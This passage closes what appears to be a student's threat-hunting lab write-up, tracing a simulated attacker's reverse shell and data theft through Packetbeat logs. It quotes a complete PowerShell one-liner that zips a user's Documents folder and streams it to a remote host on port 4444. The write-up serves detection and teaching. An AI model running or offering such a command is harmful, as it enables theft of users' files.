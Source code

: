![[Pasted image 20250904134858.png]]
we can see that the attacker just run word.txt.ps1  and is looping until in getting connected to 192.168.2.8:3000.and let go to Packetbeat  to see if they are connected
![[Pasted image 20250904135553.png]]
and as we can see attacker successfully connected using reverse shell.after following along we wil see
![[Pasted image 20250904171134.png]]
 a attacker entered a command 
 ```
 Compress-Archive -Update -Path C:\Users\econt\Documents\* -DestinationPath C:\temp\exfil.zip; $bytes = [System.IO.File]::ReadAllBytes('C:\temp\exfil.zip'); $client = New-Object System.Net.Sockets.TCPClient('192.168.1.8', 4444); $stream = $client.GetStream(); $stream.Write($bytes, 0, $bytes.Length); $client.Close();
 ```
 which will exfiltrate data from Documents to 192.168.1.8 using port 4444. and we see that it trying to exfiltrate all documents in document file let see if the attacker tried to exfiltrate other files.![[Pasted image 20250904171538.png]]
 after some time digging  we will see the attacker trying to exfiltrate file secret.txt , password.txt and last_log.pcap. rough diagram will look like this.

![[layer1(1).svg]]




This is the end of our project and i hope that i at least i  gave you some basic understanding and fascination about  threat hunting BYE ;>

# Done by Natnael Tesfu